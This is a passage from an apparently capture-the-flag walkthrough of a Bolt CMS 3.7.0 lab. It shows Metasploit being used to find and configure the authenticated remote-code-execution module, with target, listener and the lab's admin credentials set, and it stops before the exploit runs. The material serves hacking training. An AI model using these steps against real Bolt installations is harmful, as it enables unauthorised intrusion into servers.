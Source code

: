 We can do a google search for this and check the [link](https://www.exploit-db.com/exploits/48296) that belongs to ExploitDB to get the EDB-ID. From the ExploitDB page we can obtain the EBD-ID and submit it as the answer to the fifth answer.

6. ##### Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

For this, we first need to start Metasploit and then search the relavent exploit.

```
tester@kali:~$ msfconsole 
msf5 > search bolt 3.7.1

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  auxiliary/dos/http/dell_openmanage_post       2004-02-26       normal     No     Dell OpenManage POST Request Heap Overflow (win32)
   1  exploit/multi/http/bolt_file_upload           2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability
   2  exploit/xxxx/xxxxxx/xxxx_xxxxxxxxxxxxx_xxx    2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   3  exploit/windows/http/ibm_tivoli_endpoint_bof  2011-05-31       good       No     IBM Tivoli Endpoint Manager POST Query Buffer Overflow


Interact with a module by name or index, for example use 3 or use exploit/windows/http/ibm_tivoli_endpoint_bof

msf5 > 
```

Here, we got the path of the exploit in Metasploit which we can submit as the answer to the sixth question.

7. ##### Set the **LHOST, LPORT, RHOST, USERNAME, PASSWORD** in msfconsole before running the exploit

```
msf5 > use 2
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts <machine_ip>
rhosts => <machine_ip>
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set lhost tun0
lhost => <local_ip>
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set password boltadmin123
password => boltadmin123
```

8. ##### Look for flag.txt inside the machine.

Now, we can run the exploit to gain access over the machine:
